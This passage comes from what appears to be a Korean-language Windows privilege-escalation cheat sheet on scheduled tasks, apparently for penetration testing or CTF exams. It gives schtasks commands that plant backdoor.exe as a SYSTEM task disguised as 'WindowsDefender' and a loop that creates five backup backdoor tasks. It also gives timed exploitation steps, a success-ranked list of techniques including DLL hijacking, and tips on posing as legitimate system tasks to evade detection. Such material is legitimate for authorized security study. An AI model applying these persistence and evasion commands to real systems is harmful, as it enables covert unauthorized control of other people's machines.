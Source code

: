 ```cmd

:: 8. 사용자별 작업 생성 (권한이 낮아도 가능)
schtasks /create /tn "UserTask" /tr "C:\Windows\Temp\backdoor.exe" /sc onlogon

:: 9. 작업 설명 및 작성자 위조
schtasks /create /tn "WindowsDefender" /tr "C:\Windows\Temp\backdoor.exe" /sc daily /st 03:00 /ru SYSTEM /f
:: XML 직접 편집으로 Author, Description 등 수정

:: 10. 복수의 백업 작업 생성
for /l %%i in (1,1,5) do schtasks /create /tn "BackupTask%%i" /tr "C:\Windows\Temp\backdoor%%i.exe" /sc daily /st 0%%i:00 /ru SYSTEM
```

## 🚨 중요 참고사항

### ⏰ 시간 관리

- **처음 2분**: 모든 스케줄된 작업 나열 및 권한별 분류
- **다음 3분**: 실행 파일 권한 분석 및 자동화 도구 실행
- **추가 2분**: 발견된 취약점에 대한 즉시 익스플로잇 시도
- **시간 고려**: 스케줄된 작업은 실행 시간까지 대기가 필요할 수 있음

### 🎯 성공률 높은 순서

1. **실행 파일 교체**: 쓰기 가능한 스크립트나 실행 파일 (거의 확실)
2. **새 작업 생성**: 관리자 권한이 있는 경우 즉시 SYSTEM 작업 생성
3. **DLL 하이재킹**: 실행 파일이 로드하는 DLL 교체 (높은 성공률)
4. **디렉토리 권한**: 실행 파일 디렉토리에 쓰기 권한 있을 때
5. **스케줄 조작**: 기존 작업의 실행 시간이나 파일 경로 변경

### 🔥 즉시 시도할 것들

- 관리자/SYSTEM 권한 작업들 우선 확인
- 실행 파일이 스크립트(.bat, .ps1)인 경우 즉시 권한 확인
- PowerUp이나 WinPEAS로 자동 스캔 실행
- 수동 실행 가능한 작업들 즉시 테스트

### 💡 팁

- 스케줄된 작업은 Windows privesc의 중요한 벡터 중 하나
- 실행 시간까지 기다려야 하는 경우가 많으므로 시간 계획 중요
- 여러 작업을 병렬로 확인하여 효율성 증대
- 성공 후 지속성 확보를 위해 여러 백도어 작업 생성
- 정상 시스템 작업으로 위장하여 탐지 회피
- XML 형식의 복잡한 작업 정의 활용 가능
